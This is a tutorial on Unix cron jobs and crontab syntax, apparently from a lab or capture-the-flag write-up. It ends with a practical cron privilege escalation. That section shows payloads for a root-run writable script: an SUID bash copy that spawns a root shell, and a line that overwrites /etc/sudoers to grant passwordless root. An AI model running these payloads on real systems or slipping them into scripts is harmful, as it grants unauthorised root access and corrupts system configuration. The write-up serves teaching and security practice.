 _**TO VIEW PRACTICAL, [CLICK HERE](#Practical)**_

# Cron jobs
`Cron` is a utility used in Unix systems to schedule tasks; it uses the cron daemon, `crond`, to run in the background and manage the execution of cron jobs by reading and processing the `cron table`. A cron job is a task scheduled to run in a given period that helps users automate routine tasks such as archiving logs or backing up system files. Cron jobs are maintained in cron tables, configuration files located at `/var/spool/cron/crontabs` and '/etc/crontab' that define the schedules of tasks. Cron tables can be specific to the system or individual users.

## Syntax

The system-wide cron table is readable by regular users and can be accessed with any text editor:
```
vim /etc/crontab
```
To edit the system-wide cron table, you must be a privileged user.
```
sudo vim /etc/crontab
```
You can list the cron table your account has access to with the command:
```
crontab -l
```
To edit or add a cron table, you can use the command:
```
crontab -e 
```
To schedule a cron job, use the following syntax:
```
* * * * * /path/to/file
```
Where:
- The first asterisk represents the minute (0-59)
- The second asterisk represents the hour (0-23)
- The third asterisk represents the day of the month (1-31)
- The fourth asterisk represents the month (1-12)
- The fifth asterisk represents the day of the week (0-7, where 0 and 7 both represent Sunday)

Cron syntax also uses operators on provided values in cron fields.
- An asterisk (*) represents all values.
- A comma (,) specifies a list of values.
- A dash (-) indicates a range of values.
- A forward slash (/) is used as a step value.

```
30 5 */2 * * /home/kayem/script.sh
```
The cron job above will execute /home/kayem/script.sh at 5:30 every second day of the month.

## Managing cron tables

There are two types of cron tables: system and user. System cron tables are located at `etc/crontab` and require root privileges to edit. They contain scheduled tasks that apply to the entire system and tasks that require root privileges for high-privileged operations. To edit the system cron table, you have to use a text editor such as Vim, or Nano, as attempting to edit it with `sudo cron tab -e` will revise the personal cron table of the root user; rather than the system cron table. As for the user cron table, each user has their own cron table. Although not created automatically, they can be created by a system administrator or the user. An admin can create a cron table for a user with the command:
```
crontab -e -u [USER]
```
Users can create a cron table without root privileges but are limited to scheduling tasks with the files they have permission to execute.

## Security implications of cron jobs

If misconfigured, cron jobs can exploit high privileges and gain unauthorised access to critical system resources. Therefore, it is necessary that personal cron jobs run with the privileges of the user; rather than higher privileged users. If a cron job file has the SUID bit set, is owned by a higher privileged user, like root, and a regular user has write permissions, they can inject malicious code to be executed that spawns a root shell, deletes critical files, terminates services, and the like.

# Practical

I began by identifying which cron jobs the user has access to with `crontab -e`, for local cron jobs, or `cat /etc/crontab` for system-wide cron jobs. With `cat /etc/crontab` 

```
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
These four cron jobs are executed as root. Since '/home/karen/backup.sh' is writable by my user, I will target this cron job to escalate privileges.
```
ls -l /home/karen/backup.sh
```
For the script to be run by the cron job, it must have execute privileges.  
```
chmod +x /home/karen/backup.sh
```
You can modify the `backup.sh` following two methods to escalate privileges.

## Method 1

The following payload 

`cp /bin/bash /tmp/bash; chmod +s /tmp/bash`

'/tmp/bash -p'

## Method 2

Alternatively, add your user to the /etc/sudoers file!

```
echo "karen ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```
